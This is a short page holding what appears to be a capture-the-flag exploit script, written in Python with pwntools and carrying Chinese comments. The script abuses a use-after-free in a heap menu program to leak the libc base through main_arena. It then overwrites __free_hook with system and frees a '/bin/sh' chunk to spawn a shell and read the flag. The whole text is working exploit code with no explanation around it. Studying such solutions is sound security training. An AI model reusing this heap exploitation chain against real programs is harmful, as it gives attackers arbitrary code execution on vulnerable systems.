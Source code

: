    ```python
   def printf(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   def edit(index, content):
       sla(b':','4')
       sla(b':',str(index).encode())
       p.sendline(content)
       # sla(b':',str(len(content)))
       # sa(b':',content)
   
   
   
   add(0x10,b"a",b"a")   #0 利用UAF实现任意地址写
   add(0x10,b"b",b"b")   #1 利用UAF实现任意地址写
   add(0x420,b'a',b'b')  #2 泄漏main_arena，进而泄漏libc基地址
   add(0x10,b"b",b"b")   #3 防止2释放后被收回top
   
   free(2)
   printf(2)
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   
   free(0)
   free(1)
   
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   payload = b"/bin/sh\x00"+p64(0)+p64(free_hook_addr)+p64(0x0000000100000010)
   add(0x20,b"aaaa",payload)
   
   payload = p64(system_addr)
   edit(0,payload)
   free(0)
   
   p.sendline(b"cat flag")
   p.interactive()
   
   ```

   

